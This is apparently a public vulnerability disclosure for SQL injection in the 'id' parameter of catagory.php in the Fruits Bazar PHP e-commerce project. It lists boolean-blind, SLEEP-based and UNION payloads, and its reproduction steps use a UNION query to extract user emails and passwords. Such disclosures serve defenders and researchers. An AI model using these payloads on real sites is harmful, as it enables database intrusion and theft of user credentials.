

# Exploit Title: Ecommerce-project-with-php-and-mysqli-Fruits-Bazar SQL Injection in catagory.php (`http://localhost/ecommercefruitsbazarmaster/catagory.php`)

**Date:** 2025-08-11  
**Exploit Author:** Anonymous  
**Vendor Homepage:** https://github.com/creativesaiful  
**Software Link:** https://github.com/creativesaiful/Ecommerce-project-with-php-and-mysqli-Fruits-Bazar-  
**Version:** 1.0  
**Tested on:** PHP 7.4 on Ubuntu 20.04  

---

## Summary

A SQL Injection vulnerability exists in the `catagory.php` endpoint of **Ecommerce-project-with-php-and-mysqli-Fruits-Bazar-**. Unsanitized user input in the `id` parameter is interpolated directly into an SQL query, allowing attackers to infer or extract data and, in some cases, execute stacked/time-based payloads.  
**Back-end DBMS (as detected):** MySQL >= 5.0.12 (MariaDB fork)  
**CWE:** CWE-89 (SQL Injection)  
**Severity:** High (placeholder — adjust once CVSS is computed)

## Affected Component & Parameter

### Affected Endpoint

- **URL:** `http://localhost:8000/catagory.php?status=catView&id=1`
- **HTTP Method:** GET
- **Vulnerable File:** `catagory.php`
- **Parameter:** `id`
- **Vector Location:** GET

### Injection Techniques (as identified by sqlmap)
- **Type:** boolean-based blind
  - **Title:** AND boolean-based blind - WHERE or HAVING clause
  - **Payload:** `id=1 AND 9042=9042`
- **Type:** time-based blind
  - **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP)
  - **Payload:** `id=1 AND (SELECT 1551 FROM (SELECT(SLEEP(5)))fsYw)`
- **Type:** UNION query (data exfiltration)
  - **Title:** UNION query to extract user credentials - 9 columns
  - **Payload:**  
    ```
    http://localhost:8000/catagory.php?status=catView&id=1 union select 1,concat(user_email,'\n',user_password),3,4,5,6,7,8,9 from users-- -
    ```

## Steps to Reproduce

1. Browse to `http://localhost:8000/catagory.php?status=catView&id=1`.  
2. Intercept the request and inject the following payload into the `id` parameter:
    ```
    http://localhost:8000/catagory.php?status=catView&id=1 union select 1,concat(user_email,'\n',user_password),3,4,5,6,7,8,9 from users-- -
    ```
3. Observe the extracted user email and password displayed in the application with newline formatting (see screenshot above).
4. Confirm DBMS fingerprinting and data extraction as permitted by the app's DB privileges.

## Proof of Concept (Firefox Screenshot)



## Technical Description

The vulnerable parameter is reflected into the SQL statement without proper validation or prepared statements. Boolean-based blind, time-based blind (SLEEP), and/or UNION-based vectors were verified by sqlmap. This enables database enumeration and potential data exfiltration under the privileges of the application's DB user. The payload uses a `concat` function with newline formatting to clearly separate user email and password data.

## Impact

- Enumeration of database schemas, tables, and rows  
- Exposure of sensitive user/operational data  
- Potential lateral movement if credentials or session material are stored in DB
- Data extraction with formatted output for improved readability

## Vulnerable Code (Screenshot)


## References

- OWASP: SQL Injection Prevention Cheat Sheet
- CWE-89: SQL Injection